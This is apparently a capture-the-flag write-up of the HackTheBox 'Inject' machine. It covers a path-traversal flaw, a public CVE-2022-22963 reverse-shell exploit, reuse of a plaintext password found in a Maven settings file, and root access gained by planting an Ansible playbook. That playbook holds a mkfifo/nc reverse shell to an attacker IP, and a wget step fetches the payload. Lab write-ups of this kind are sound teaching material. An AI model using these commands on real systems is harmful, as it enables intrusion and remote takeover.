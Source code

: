 ```yaml
---
title: "HackTheBox - Inject"
date: 2023-05-28 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Inject/Inject.png)

## Description

The box is available [here](https://app.hackthebox.com/machines/533). *Try it before read this article.*

- OS : Linux
- Release date : 11/03/23
- Difficulty : Easy
- Points : 20
- IP Adress : 10.10.11.204

You can add `Inject.htb` to the /etc/hosts file !

Now, we can start !

## Foothold

### Scanning and Enumeration

First, we use *Nmap* to discover the open ports :

```markdown
nmap -p- Inject.htb
```
We have the following result : 

```markdown
#Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-11 21:35 CEST
Nmap scan report for Inject.htb (10.10.11.204)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

#Nmap done: 1 IP address (1 host up) scanned in 21.14 seconds
```

There are two open ports,
**Ssh** doesn't look interesting. Go on website with Firefox.

The `/upload` is very interesting. We can test the service.

![Website_upload](../assets/img/Inject/Website_upload.png)

### Exploit the LFI

Start *BurpSuite* and we can see that `show_image?img=` is vulnerable.

![lfi_1](../assets/img/Inject/lfi_1.png)

After check important files, we have nothing. But here we can list each directory : 

````markdown
# Java List Directories
It looks like if you have a Path Traversal in Java and you ask for a directory instead of a file, a listing of 
the directory is returned.
This won't be happening in other languages (afaik).
````
Source : https://book.hacktricks.xyz/pentesting-web/file-inclusion#java-list-directories

Now, there is a file which is important, called `pom.xml` : 

![pom](../assets/img/Inject/pom.png)

We can see some services with the version. The `SpringBook` is interesting because the version is vulnerable.

Just Googling the version and we found some exploit. I will use this one, avalable [here](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Execute the script with the command : 

````markdown
python3 exploit.py -u http://inject.htb:8080/
````

And we have a shell !

*More about CVE-2022-22963 :*

- https://nvd.nist.gov/vuln/detail/CVE-2022-22963
- https://github.com/me2nuk/CVE-2022-22963

## User 

We are logged as *Frank*. There is another user called *Phil*. 

In the `/home/frank/` directory, listing all files and hidden dirs, and we have a `settings.xml` file with the following content :

````markdown
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
````

Nice ! This looks like a password for *Phil*. Try to connect with **Ssh** but it doesn't work.

Upgrade your shell with :

````markdown
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

Try `su phil` and enter the password : `DocPhillovestoInject123`. It works !

Navigate into the files and we have the user flag !

![flag_user](../assets/img/Inject/flag_user.png)

## Privesc 

We need to be root to read the last flag.

### Find the vulnerability

Basic enumeration with automated tools can help us like [*Linpeas*](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

We will use [*pspy64*](https://github.com/DominicBreuker/pspy) to see the services which are running in background.

The script return :

````markdown
/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml

/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
````

So there is a crontab which execute *Ansible* as root. In the `/opt/automation/tasks/` directory, we can write and create files because *Phil* is in the *Staff* group. 

### Exploit Ansible

This article will help us : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/#privesc-with-automation-task

To privesc : 

- Create malicious file (Attacker)
- Start HTTP server (Attacker)
- Change name of original file
- Get the malicious file
- Wait

First, we need to craft a malicious file. The name will be `playbook_1.yml` :

````markdown
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
  - name: Evil
    ansible.builtin.shell: |
      /usr/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f
    become: true
````

Now, start a HTTP server with **python3** :

````markdown
python3 -m http.server
````

On the target, change name of the original file and use **wget** to download your payload : 

````markdown
mv playbook_1.yml pl.txt
wget http://10.10.14.206:8000/playbook_1.yml
````

Finally, wait ~ 2 min and you will receive a connection. *Don't forget to start a listener !*

![root_exploit](../assets/img/Inject/root_exploit1.png)

### Root flag 

We are root ! We can read the root flag.

![root_flag](../assets/img/Inject/root.png)

## Conclusion

The box was fun and pretty straight forward. 

Thanks for reading !

[HackTheBox - Completed](https://www.hackthebox.com/achievement/machine/356950/533)
